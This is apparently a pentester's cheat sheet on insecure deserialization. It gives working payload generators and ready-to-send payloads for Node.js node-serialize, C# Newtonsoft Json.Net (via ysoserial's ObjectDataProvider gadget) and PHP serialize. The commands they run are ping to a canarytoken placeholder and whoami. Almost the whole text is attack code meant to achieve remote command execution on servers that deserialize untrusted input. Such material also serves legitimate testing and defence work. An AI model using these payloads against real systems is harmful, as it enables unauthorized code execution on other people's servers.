 # Object Deserialization
## Node.JS - node-serialize
Payload Generator:
```sh
let y = {
  rce: function() {
    require('child_process').exec('ping XXXXXXXXX.canarytokens.com', function(error, stdout, stderr) { console.log(stdout); });
  },
};

let serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```
Run:
```sh
node serialize.js

# You should add IIFE brackets "()" at the end of output. 
```

Payload:
```sh
{"rce":"_$$ND_FUNC$$_function() {require('child_process').exec('ping XXXXXXXXX.canarytokens.com', (error, stdout, stderr) => { console.log(stdout); }); } ()"}
```
#####

## C# - Newtonsoft
Run:
```sh
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "ping -n 3   XXXXXXXXX.canarytokens.com"
```

Payload:
```sh
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', 'ping -n 3   XXXXXXXXX.canarytokens.com']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
#####

## PHP - serialize
Payload Generator:
```sh
<?php

class Example2
{  
   private $hook = "system('whoami');";
}

print(urlencode(serialize(new Example2)) . "\n\n");
print((serialize(new Example2)) . "\n");

?>
```

Run:
```sh
php serialize.php
```

Payload:
```sh
O%3A8%3A%22Example2%22%3A1%3A%7Bs%3A14%3A%22%00Example2%00hook%22%3Bs%3A17%3A%22system%28%27whoami%27%29%3B%22%3B%7D

O:8:"Example2":1:{s:14:"Example2hook";s:17:"system('whoami');";} 
```
#####

